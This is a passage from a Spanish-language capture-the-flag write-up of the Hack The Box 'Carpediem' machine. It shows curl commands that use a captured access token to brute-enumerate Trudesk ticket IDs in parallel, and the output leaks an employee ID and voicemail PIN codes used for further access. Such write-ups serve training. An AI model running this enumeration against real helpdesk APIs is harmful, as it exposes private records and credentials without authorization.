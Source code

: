 ```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/carpediem$ curl -H "accesstoken: f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" http://trudesk.carpediem.htb/api/v1/tickets/1 
{"success":false,"error":"Invalid Ticket"}%  
```
Podremos hacer un script para que nos realice una búsqueda rápida de los tickets disponibles.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/carpediem$ seq 1000 2000 | xargs -P50 -I {} curl -H "accesstoken: f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" -s http://trudesk.carpediem.htb/api/v1/tickets/{} | jq | grep "comment"
    "comments": [
        "comment": "<p>Thanks, Jeremy.  I agree.  This is a big problem.</p>\n"
        "action": "ticket:comment:added",
    "comments": [
        "comment": "<p>You&#39;re hopelss, man.  Utterly hopeless.</p>\n<p>I&#39;m closing this ticket.</p>\n"
        "action": "ticket:comment:added",
    "comments": [
        "comment": "<p>Hey Adeanna,<br>I think Joey is out this week, but I can take care of this. Whats the last 4 digits of his employee ID so I can get his extension set up in the VoIP system?</p>\n"
        "comment": "<p>Thanks Robert,<br>Last 4 of employee ID is 9650.</p>\n"
        "comment": "<p>Thank you! He&#39;s all set up and ready to go. When he gets to the office on his first day just have him log into his phone first. I&#39;ll leave him a voicemail with his initial credentials for server access. His phone pin code will be 2022 and to get into voicemail he can dial *62</p>\n<p>Also...let him know that if he wants to use a desktop soft phone that we&#39;ve been testing Zoiper with some of our end users.</p>\n<p>Changing the status of this ticket to pending until he&#39;s been set up and changes his initial credentials.</p>\n"
        "action": "ticket:comment:added",
        "action": "ticket:comment:added",
        "action": "ticket:comment:added",
    "comments": [],
    "comments": [
        "comment": "<p>Please don&#39;t expose that application publically.  I told you I would help when I had time and right now I&#39;m just too busy.<br>Build it out if you&#39;d like, but...just don&#39;t do anything stupid.</p>\n"
        "comment": "<p>Don&#39;t worry. I moved it off of the main server and into a container with SSL encryption.</p>\n"
        "action": "ticket:comment:added",
        "action": "ticket:comment:added",
        "action": "ticket:comment:updated",
```
Nos menciona sobre una aplicación Zoiper y nos da un par de códigos, podemos descargarnos zoiper e intentar conectarnos al servidor de la máquina.
